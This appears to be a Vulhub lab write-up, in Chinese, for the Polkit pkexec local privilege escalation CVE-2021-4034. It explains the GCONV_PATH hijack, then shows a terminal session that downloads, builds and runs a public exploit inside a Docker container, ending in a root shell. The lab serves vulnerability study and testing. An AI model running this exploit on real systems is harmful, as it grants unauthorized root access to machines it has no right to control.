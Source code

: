 # Polkit `pkexec` 权限提升漏洞（CVE-2021-4034）

Polkit（之前名为PolicyKit）是一个权限相关的套件，pkexec是其中用于以其他用户身份执行命令的工具，它具有suid权限。

当前版本的pkexec中没有正确处理参数和环境变量，导致攻击者可以利用这个Bug劫持环境变量`GCONV_PATH`，进而劫持动态链接库，以root身份执行任意代码。

参考链接：

- https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
- https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034
- https://github.com/berdav/CVE-2021-4034
- https://xz.aliyun.com/t/10870

## 漏洞环境

因为这个漏洞不是存在于一个服务中，所以Vulhub只是提供了一个包含Polkit（PolicyKit）v0.105版本套件的Ubuntu。

你可以执行下面的命令，进入这个Ubuntu的交互式shell环境中：

```
docker-compose run --rm cmd bash
```

此时，执行`id`命令可以看见，你是普通用户`nobody`：

![](2.png)

## 漏洞利用

使用[这个项目](https://github.com/berdav/CVE-2021-4034)来利用CVE-2021-4034：

```
nobody@a083d335d026:/$ cd /tmp/
nobody@a083d335d026:/tmp$ wget https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
--2022-02-12 09:33:21--  https://github.com/berdav/CVE-2021-4034/archive/refs/heads/main.tar.gz
Resolving github.com (github.com)... 20.205.243.166
Connecting to github.com (github.com)|20.205.243.166|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main [following]
--2022-02-12 09:33:21--  https://codeload.github.com/berdav/CVE-2021-4034/tar.gz/refs/heads/main
Resolving codeload.github.com (codeload.github.com)... 20.205.243.165
Connecting to codeload.github.com (codeload.github.com)|20.205.243.165|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [application/x-gzip]
Saving to: 'main.tar.gz'

main.tar.gz                                              [ <=>                                                                                                                  ]   4.08K  --.-KB/s    in 0s

2022-02-12 09:33:22 (61.8 MB/s) - 'main.tar.gz' saved [4176]

nobody@a083d335d026:/tmp$ tar -zxvf main.tar.gz
CVE-2021-4034-main/
CVE-2021-4034-main/.gitignore
CVE-2021-4034-main/LICENSE
CVE-2021-4034-main/Makefile
CVE-2021-4034-main/README.md
CVE-2021-4034-main/cve-2021-4034.c
CVE-2021-4034-main/cve-2021-4034.sh
CVE-2021-4034-main/dry-run/
CVE-2021-4034-main/dry-run/Makefile
CVE-2021-4034-main/dry-run/dry-run-cve-2021-4034.c
CVE-2021-4034-main/dry-run/pwnkit-dry-run.c
CVE-2021-4034-main/pwnkit.c
nobody@a083d335d026:/tmp$ cd CVE-2021-4034-main/
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ls
LICENSE  Makefile  README.md  cve-2021-4034.c  cve-2021-4034.sh  dry-run  pwnkit.c
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ make
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ id
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
nobody@a083d335d026:/tmp/CVE-2021-4034-main$ ./cve-2021-4034
# id
uid=0(root) gid=0(root) groups=0(root)
```

![](1.png)

上图可见，执行提权程序后，我们已经成为了root用户。
